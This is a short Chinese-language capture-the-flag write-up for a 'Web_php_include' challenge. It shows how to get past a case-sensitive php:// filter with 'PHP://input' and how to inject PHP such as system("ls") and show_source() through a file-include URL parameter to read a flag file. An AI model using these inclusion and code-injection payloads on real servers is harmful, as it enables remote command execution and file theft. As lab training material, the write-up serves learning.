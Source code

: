 # Web_php_include
## 题目描述
暂无
## 思路
http://220.249.52.133:35160  
点开题目链接，看到一堆 php 源码：  
![avatar](./picture/Web_php_include_1.png)  
### 方法一
分析一下可以发现，php:// 被过滤了，但是问题不大，因为 strstr() 函数是区分大小写的，因此，我们可以用大写的 PHP 绕过 strstr() 的过滤。因此，构造 url，并 post 执行系统命令的参数：  
http://220.249.52.133:35160/?page=PHP://input  
![avatar](./picture/Web_php_include_2.png)  
然后发现了 flag 的线索：  
![avatar](./picture/Web_php_include_3.png)  
我们尝试访问一下这个文件：  
![avatar](./picture/Web_php_include_4.png)  
得到 flag：  
![avatar](./picture/Web_php_include_5.png)  
### 方法二
直接构造合适的 url，先给 hello 赋值（想要运行的命令），然后让带有已被赋值的 hello 的 index.php 运行：  
http://220.249.52.133:35160/?page=http://127.0.0.1/index.php/?hello=<?system("ls");?>  
![avatar](./picture/Web_php_include_6.png)  
http://220.249.52.133:35160/?page=http://127.0.0.1/index.php/?hello=<?show_source("fl4gisisish3r3.php");?>  
![avatar](./picture/Web_php_include_7.png)  
这里存在一个问题，即为什么第二个链接不能是 ?hello=<?system("cat fl4gisisish3r3.php");?>。与朋友讨论后认为，这是在浏览器端进行了 url 编码，而在服务器端没有进行 url 解码造成的。  

## 相关知识
1. 关于 php://input  
![avatar](./picture/Web_php_include_8.png)  
